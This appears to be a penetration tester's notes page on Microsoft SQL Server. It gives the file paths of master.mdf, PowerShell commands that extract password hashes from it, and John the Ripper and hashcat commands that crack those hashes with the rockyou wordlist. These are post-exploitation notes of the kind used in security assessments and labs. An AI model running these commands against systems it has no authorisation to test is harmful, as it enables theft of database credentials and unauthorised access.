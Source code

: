 ```yaml
---
title: MSSQL
parent: Others
layout: default
nav_order: 3
---
```


Can be from master.mdf or direct from DB

1. Common location:\
   `C:\Program Files\Microsoft SQL Server\MSSQL14.SQLEXPRESS\MSSQL\Backup\master.mdf`\
   `C:\Program Files\Microsoft SQL Server\MSSQL14.SQLEXPRESS\MSSQL\Binn\master.mdf`(Requires more work as cannot extract run time)
2. After getting the file, go to tools->Invoke-MDFHashes. In this folder, run `pwsh`. If not installed, get it here: https://github.com/xpn/Powershell-PostExploitation
3. Do this:\
   `Add-Type -AssemblyName ./OrcaMDF.RawCore.dll`\
   `Add-Type -AssemblyName ./OrcaMDF.Framework.dll`\
   `import-module ./Get-MDFHashes.ps1`\
   `Get-MDFHashes -mdf "/home/yengee/try/master.mdf"`
4. If you cannot see the full hash, maximize terminal and run the command again. Get the hash and crack it using John:\
   `john --format=mssql12 --wordlist=/usr/share/seclists/rockyou.txt hash.txt`
5. Alternatively hashcat (131 for SQL 2000, 132 for SQL 2005, 1731 for 2012,2014+):\
   `hashcat -m 1731 -a 0 hash.txt /usr/share/seclists/rockyou.txt`